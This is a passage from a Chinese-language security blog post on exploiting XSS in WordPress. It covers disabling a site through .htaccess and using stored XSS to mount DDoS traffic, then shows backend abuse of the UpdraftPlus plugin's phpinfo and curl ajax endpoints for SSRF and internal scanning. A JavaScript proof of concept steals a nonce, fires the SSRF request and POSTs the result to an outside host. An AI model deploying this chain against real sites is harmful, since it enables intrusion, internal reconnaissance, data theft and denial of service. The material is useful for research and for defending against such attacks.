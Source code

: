 甚至如果想要使整个站出错，可以直接设置.htaccess内容为`deny from all`，那样整个站就会返回403，拒绝用户访问。

当然除了攻击网站以外，我们可以通过使用xss来注入恶意payload到页面，当用户访问页面时，会不断地向目标发起请求，当网页的用户量达到一定级别时，可以以最低的代价造成大流量的ddos攻击。几年前就发生过类似的事情，攻击者利用搜狐视频评论的储存型xss，对目标产生了大流量的ddos，这种攻击成本低，持续时间长，对攻击者还有很强的隐秘性。

[http://www.freebuf.com/news/33385.html](http://www.freebuf.com/news/33385.html)

攻击和防护的一些思路见
[https://www.incapsula.com/blog/world-largest-site-xss-ddos-zombies.html](https://www.incapsula.com/blog/world-largest-site-xss-ddos-zombies.html)

在前面部分的内容，花了大篇幅来描述XSS在前台中的影响，关于后台的部分只有一部分通过编辑插件实现的XSS to Rce.但实际上还有更多拓展的可能。

## XSS的后端利用

这里首先介绍一个WordPress的插件UpdraftPlus，这是一个用于管理员备份网站的插件，用户量非常大，基本上所有的wordpress使用者都会使用UpdraftPlus来备份他们的网站，在这个插件中，集成了一些小工具，配合我们xss，刚好可以实现很多特别的攻击链。

首先是phpinfo，前面提到，我们可以修改hello holly这个插件来查看phpinfo，但是如果这个默认插件被删除了，而且又没有合适的方式隐藏phpinfo页面，那么我们可以通过UpdarftPlus来获取phpinfo内容。

这个链接地址为
```
wp-admin/admin-ajax.php?page=updraftplus&action=updraft_ajax&subaction=phpinfo&nonce=cbe6c0b062
```

除了phpinfo以外，我们还可以使用内建的curl工具，这个工具没有对请求地址做任何限制，那么我们就可以使用这个工具来ssrf或者扫描内网。

curl的链接
```
wp-admin/admin-ajax.php?action=updraft_ajax&subaction=httpget&nonce=2f2f07ce90&uri=http://127.0.0.1&curl=1
```

配合js，poc如下：
```

url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/options-general.php?';
p2 = 'wp-admin/admin-ajax.php?';
q = 'page=updraftplus&tab=addons';
s = "http://111111111";

a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

q2 = 'nonce=' + /credentialtest_nonce='([^']*?)'/.exec(a.responseText)[1] +
'&uri=' + s + '&action=updraft_ajax&subaction=httpget&curl=1';

// 发起请求
b = new XMLHttpRequest();
b.open('GET', url+p2+q2, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send();

b.onload = function(){
	if (this.readyState == 4) {
		// 传出请求结果
		var c = new XMLHttpRequest(); 
		c.open('POST', 'http://0xb.pw', true); 
		c.setRequestHeader("Content-type","application/x-www-form-urlencoded");
		c.send('result='+encodeURIComponent(b.responseText))
	}
}
```
![image.png-57.6kB][12]

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png